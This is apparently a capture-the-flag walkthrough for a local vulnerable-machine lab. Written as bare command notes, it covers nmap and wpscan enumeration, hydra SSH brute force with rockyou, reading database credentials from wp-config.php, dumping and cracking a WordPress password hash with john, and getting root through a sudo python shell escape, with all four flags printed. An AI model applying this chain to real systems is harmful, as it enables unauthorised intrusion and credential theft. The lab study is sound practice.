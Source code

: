# Walkthrough

This file contains my notes as I completed this CTF. Use my notes to help guide you.


ifconfig to get IP

netdiscover -r 192.168.56.0/24 -i eth1

nmap 192.168.56.103

firefox -> 192.168.56.103 to find IP of target

httrack 192.168.56.103 to have offline version of all online files

grep "flag" *.html

	service.html:			<!-- flag1{b9bbcb33e11b80be759c4e844862482d} -->

wpscan --url http://192.168.56.103/wordpress -evt -evp -eu

hydra 192.168.56.103 -L users.txt -P /usr/share/wordlists/rockyou.txt ssh

ssh michael@192.168.56.103

cd /var/www/ , cat flag2.txt

	flag2{fc3fd58dcdad9ab23faca6e9a36e581c}

cd html/wordpress

cat wp-config.php (// ** MySQL settings - You can get this info from your web host ** //

/** The name of the database for WordPress */

define('DB_NAME', 'wordpress');


/** MySQL database username */

define('DB_USER', 'root');

/** MySQL database password */

define('DB_PASSWORD', 'R@v3nSecurity');

/** MySQL hostname */

define('DB_HOST', 'localhost');

/** Database Charset to use in creating database tables. */

define('DB_CHARSET', 'utf8mb4');

/** The Database Collate type. Don't change this if in doubt. */

define('DB_COLLATE', '');

mysql -u root -p R@v3nSecurity

show databases;

use wordpress;

show tables;

select * from wp_posts; flag3{afc01ab56b50591e7dccf93122770cd2}

select * from wp_users;

steven password hash: $P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/

exit 2x

touch stevenHash.txt ; nano stevenHash.txt //copy PW in there

john stevenHash.txt -> returns pink84

ssh steven@192.168.56.103 -> PW = pink84

sudo -l (shows that you can run python)

sudo /usr/bin/python

	import os

	os.system('/bin/bash')

now have root access

cd root, cat flag4.txt

flag4{715dea6c055b9fe3337544932f2941ce}













